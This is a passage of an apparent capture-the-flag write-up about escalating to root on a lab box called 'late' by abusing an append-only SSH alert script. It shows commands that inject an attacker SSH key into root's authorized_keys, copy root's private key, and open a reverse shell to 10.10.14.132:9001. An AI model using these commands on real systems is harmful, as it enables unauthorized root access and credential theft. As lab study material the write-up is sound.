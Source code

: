 >The  letters 'aAcCdDeijPsStTu' select the new attributes for the files:
       append only (a), no atime updates (A), compressed (c), no copy on write
       (C), no dump (d), synchronous directory updates (D), extent format (e),
       immutable (i), data journalling  (j),  project  hierarchy  (P),  secure
       deletion  (s),  synchronous  updates  (S),  no tail-merging (t), top of
       directory hierarchy (T), and undeletable (u).
>
>The following attributes are read-only, and may be listed by  lsattr(1)
       but  not  modified by chattr: encrypted (E), indexed directory (I), and
       inline data (N).

```
svc_acc@late:/dev/shm$ lsattr /usr/local/sbin/ssh-alert.sh
-----a--------e--- /usr/local/sbin/ssh-alert.sh
```

I checked the attributes of the file with `lsattr` and found that I was only able to append (`a`) the document, not directly write to it.  This was why I was unable to save the file after editing it, but vim did not show the file as 'read-only'.  

```shell
svc_acc@late:/dev/shm$ echo '`echo ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDEkT7JxMDRMObKtE7+GuvBQGPHPnDmF7Yly0ZClqrdC > /root/.ssh/authorized_keys`' >> /usr/local/sbin/ssh-alert.sh
```

Armed with knowledge, I decided to try to add my SSH public key to `root`'s `authorized_keys` file.  I logged out of my SSH session and then back in to try to trigger the alert script again.  After verifying that the script ran, I tried to SSH in as `root`. This did not work.

```shell
svc_acc@late:~$ echo '`cat /root/.ssh/id_rsa > /dev/shm/.test`' >> /usr/local/sbin/ssh-alert.sh

```

Next, I tried to send `root`'s potential SSH key to another file, but nothing appeared after forcing the script ro run again.

```bash
# Authentication:

#LoginGraceTime 2m
PermitRootLogin no
#StrictModes yes
#MaxAuthTries 6
#MaxSessions 10
```

I found the problem in the file `/etc/ssh/sshd_config`: root was not allowed to login through SSH.

### Getting a shell

```shell
svc_acc@late:/dev/shm$ echo '`bash -c "bash -i >& /dev/tcp/10.10.14.132/9001 0>&1"`' >> /usr/local/sbin/ssh-alert.sh
```

Next, I tried to get in directly by sending myself a reverse shell.
